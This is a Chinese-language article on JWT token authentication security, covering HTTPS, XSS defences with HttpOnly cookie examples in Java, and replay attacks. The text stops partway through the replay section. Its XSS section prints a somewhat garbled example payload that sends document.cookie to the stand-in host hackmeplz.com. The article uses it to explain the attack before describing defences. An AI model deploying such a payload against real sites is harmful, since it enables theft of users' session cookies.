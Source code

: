 基于JWT的Token认证的安全问题
------------------

### 确保验证过程的安全性

如何保证用户名/密码验证过程的安全性；因为在验证过程中，需要用户输入用户名和密码，在这一过程中，用户名、密码等敏感信息需要在网络中传输。因此，在这个过程中建议采用HTTPS，通过SSL加密传输，以确保通道的安全性。

### 如何防范XSS Attacks

浏览器可以做很多事情，这也给浏览器端的安全带来很多隐患，最常见的如：XSS攻击：跨站脚本攻击(Cross Site Scripting)；如果有个页面的输入框中允许输入任何信息，且没有做防范措施，如果我们输入下面这段代码：

```hljs coffeescript
<img src="x" /> a.src='https://hackmeplz.com/yourCookies.png/?cookies='
+document.cookie;return a}())"
```

这段代码会盗取你域中的所有cookie信息，并发送到 hackmeplz.com；那么我们如何来防范这种攻击呢？
* **XSS攻击代码过滤**  
  移除任何会导致浏览器做非预期执行的代码，这个可以采用一些库来实现（如：js下的js-xss，JAVA下的XSS HTMLFilter，PHP下的TWIG）；如果你是将用户提交的字符串存储到数据库的话（也针对SQL注入攻击），你需要在前端和服务端分别做过滤；
* **采用HTTP-Only Cookies**  
  通过设置Cookie的参数： HttpOnly; Secure 来防止通过JavaScript 来访问Cookie；  
  如何在Java中设置cookie是HttpOnly呢？  
  Servlet 2.5 API 不支持 cookie设置HttpOnly  
  http://docs.oracle.com/cd/E17802_01/products/products/servlet/2.5/docs/servlet-2_5-mr2/  
  建议升级Tomcat7.0，它已经实现了Servlet3.0  
  http://tomcat.apache.org/tomcat-7.0-doc/servletapi/javax/servlet/http/Cookie.html  
  或者通过这样来设置：

```hljs less
//设置cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");

//设置多个cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");
response.addHeader("Set-Cookie", "timeout=30; Path=/test; HttpOnly");

//设置https的cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; Secure; HttpOnly");
```

在实际使用中，我们可以使FireCookie查看我们设置的Cookie 是否是HttpOnly；

### 如何防范Replay Attacks

所谓重放攻击就是攻击者发送一个目的主机已接收过的包，来达到欺骗系统的目的，主要用于身份认证过程。比如在浏览器端通过用户名/密码验证获得签名的Token被木马窃取。即使用户登出了系统，黑客还是可以利用窃取的Token模拟正常请求，而服务器端对此完全不知道，以为JWT机制是无状态的。  
针对这种情况，有几种常用做法可以用作参考：  
1、时间戳 +共享秘钥  
这种方案，客户端和服务端都需要知道：
* User ID
* 共享秘钥

